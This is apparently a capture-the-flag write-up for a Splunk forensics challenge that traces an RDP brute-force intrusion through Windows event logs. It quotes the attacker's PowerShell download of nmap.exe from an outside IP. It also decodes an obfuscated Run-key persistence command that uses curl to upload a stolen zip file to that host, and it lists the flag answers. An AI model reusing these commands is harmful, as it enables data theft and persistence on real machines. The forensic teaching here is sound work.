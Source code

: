 first we got an OVF file to run in vmware, as a setup for our Splunk, together with its credentials `ihack24:root`

![alt text](images/image.png)

after logging in you need to check your vm's ip and make sure your network setup is properly configured, for me i'm using NAT

![alt text](images/image-1.png)

after running `ifconfig` to grab the vm's ip we can now take a look at its splunk setup by going to `{vm's ip}:8000` in our host machine browser

![alt text](images/image-2.png)

in the provided question the splunk creds provided is `player:beg_to_dfir`

![alt text](images/image-3.png)

now to take a look at the vm's splunk data just go to common task > search your data > query `index=*` > change presets from `last 24 hours` to `All Time`

![alt text](images/image-4.png)

## Happy SPLUNKing #1

from the first question here is what we need to focus on:-
- RDP Brute Force Attack
- Timestamp 23rd July
- find victim user account and its ip

referring to this cheatsheet (https://www.socinvestigation.com/windows-rdp-event-ids-cheatsheet/) that I found, you failed attempt to login is apart of EventCode `4625` is related rdp failure logon status

therefore in the query presets change to last 7 days, filter EventCode `4625` and scroll all the way to 23rd July

query `index=* EventCode=4625`

![alt text](images/image-5.png)

here what we got is the username of the victim which is `admin` to find its source ip go to query and search for admin

query `index=* admin`

![alt text](images/image-6.png)

as you can see there is the ip `192.168.8.52`

flag `ihack24{admin:192.168.8.52}`

## Happy SPLUNKing #2

find ip attacker

query `index=* EventCode=4625`

![alt text](images/image-7.png)

flag `ihack24{192.168.8.41}`

## Happy SPLUNKing #3

find TimeStamp access login

referring to the cheatsheets success login rdp EventCode is `4624` therefore add it to the query

query `index=* (EventCode=4624 OR EventCode=4625)`, find out when the EventCode changes that is going to be the timestamp

![alt text](images/image-8.png)

flag `ihack24{07/23/2024 09:55:52 PM}`

## Happy SPLUNKing #4

find attacker's first command after attack

include the CommandLine filter in the query search, and add cmd to filer the cmd.exe ParentImage

query `index=* cmd CommandLine=*` 

at this timestamp this is not actually the command that the attacker first attack it is used to execute cmd.exe

![alt text](images/image-9.png)

at this timestamp is actually the command that the attacker used

![alt text](images/image-10.png)

flag `ihack24{systeminfo}`

## Happy SPLUNKing #5

find the path being excluded from detection of Windows Defender

here is the part of PowerShell parameter to exclude a directory, therefore just filter it

![alt text](images/image-11.png)

query `index=* exclusionpath`

viola

![alt text](images/image-12.png)

`flag ihack24{C:\Windows\microsoft}`

## Happy SPLUNKing #6

find backdoor ip address

at the same query, but when scrolling down there is an interesting PowerShell command executed by the attacker, using the url with ip `157.230.33.7`

`Invoke-WebRequest -Uri "http://157.230.33.7:8080/nmap.exe" -OutFile "nmap.exe"`

![alt text](images/image-13.png)

filtering it at the query we found this, the attacker sent something to that IP, probably the information of the victim's machine, therefore we concluded that will be the backdoor IP

![alt text](images/image-14.png)

flag `ihack24{157.230.33.7}`

## Happy SPLUNKing #7

find data that has been exfilterated

looking at the previous image it also includes the filename and extension that has been exfiltrated, therefore the flag is

flag `ihack24{DESKTOP-9O75B7U.zip}`

## Happy SPLUNKing #8

tools dropped by attacker to find other host

from the previous inspection (Happy SPLUNKing #6) we stumble across nmap.exe, researching on the internet, it is confirmed that, nmap is capable of doing network inspection

![alt text](images/image-15.png)

flag `ihack24{nmap.exe}`

## Happy SPLUNKing #9

find out the user and password the attacker added

when adding a new user in windows, the command always contains `add` therefore just filter it with CommandLine fields together with the word `add`

query `index=* CommandLine=* add`

![alt text](images/image-16.png)

flag `ihack24{operator:operator123}`

## Happy SPLUNKing #10

attacker command used for persistence

when filtering the the ip address of `157.230.33.7` to investigate the backdoor ip address further, luckily we found a strange (obsufcated?) PowerShell command

![alt text](images/image-18.png)

`&( $shEllid[1]+$SheLLid[13]+'x')` -> decodes to iex, which is also known as `Invoke-Expression` in PowerShell

`(-JOin (( 68, 83, ... 25,80 )))` -> joins the array of numbers into a single string, and it is also processed inside the `ForEACh-oBJeCT` block

`ForEACh-oBJeCt{[CHAR] ( $_-BxoR "0x36")}` basically a bitwise XOR command with `0x36` on each number in the array

create a python script to decode it

```python
numbers = [
    68, 83, 81, 22, 87, 82, 82, 22, 17, 126, 125, 122, 123, 106, 101, 89, 80, 66, 65, 87, 68, 83, 106, 123, 95, 85, 
    68, 89, 69, 89, 80, 66, 106, 97, 95, 88, 82, 89, 65, 69, 106, 117, 67, 68, 68, 83, 88, 66, 96, 83, 68, 69, 95, 
    89, 88, 106, 100, 67, 88, 17, 22, 25, 64, 22, 68, 83, 70, 89, 68, 66, 22, 25, 66, 22, 100, 115, 113, 105, 101, 
    108, 22, 25, 82, 22, 17, 85, 91, 82, 24, 83, 78, 83, 22, 25, 85, 22, 85, 67, 68, 90, 22, 27, 110, 102, 121, 101, 
    98, 22, 7, 3, 1, 24, 4, 5, 6, 24, 5, 5, 24, 1, 25, 67, 70, 90, 89, 87, 82, 22, 27, 112, 22, 80, 95, 90, 83, 69, 
    11, 118, 117, 12, 106, 99, 69, 83, 68, 69, 106, 87, 82, 91, 95, 88, 106, 114, 89, 85, 67, 91, 83, 88, 66, 69, 
    106, 114, 115, 101, 125, 98, 121, 102, 27, 15, 121, 1, 3, 116, 1, 99, 24, 76, 95, 70, 17, 22, 25, 80
]

decoded_message = ''.join([chr(num ^ 0x36) for num in numbers])
print(decoded_message)
```

flag `ihack24{'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' /v report /t REG_SZ /d 'cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Documents\DESKTOP-9O75B7U.zip' /f}`

